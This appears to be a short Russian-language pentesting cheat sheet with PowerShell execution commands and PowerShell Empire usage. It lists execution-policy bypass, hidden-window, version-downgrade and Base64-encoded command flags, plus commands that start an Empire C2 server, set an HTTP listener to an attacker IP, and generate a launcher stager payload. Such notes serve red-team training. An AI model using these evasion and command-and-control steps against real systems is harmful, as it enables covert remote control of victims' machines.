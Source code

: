 # 🛠 PowerShell

## 🔹 Проверка архитектуры
```powershell
[Environment]::Is64BitProcess
# True = 64-битный PowerShell
```

## 🔹 Запуск скриптов с обходом ограничений
```powershell
powershell.exe -ExecutionPolicy Bypass .\script.ps1
powershell.exe -ExecutionPolicy Unrestricted .\script.ps1
powershell.exe -NoProfile .\script.ps1
powershell.exe -WindowStyle Hidden .\script.ps1
powershell.exe -Version 2.0
```

## 🔹 Выполнение команд
```powershell
powershell.exe -Command "Get-Process"
powershell.exe -Command "& {Get-Process}"
powershell.exe -EncodedCommand <Base64>
```

---

# 🧠 PowerShell Empire

## 🔹 Основные команды
```bash
powershell-empire server       # Запуск сервера
powershell-empire client       # Запуск клиента
```

## 🔹 Настройка слушателя
```
uselistener http
set Host <Attacker_IP>
set Port <Port>
execute                         # Создание слушателя (как nc -lp)
```

## 🔹 Генерация полезной нагрузки
```
usestager multi/launcher
set Listener http
execute
```
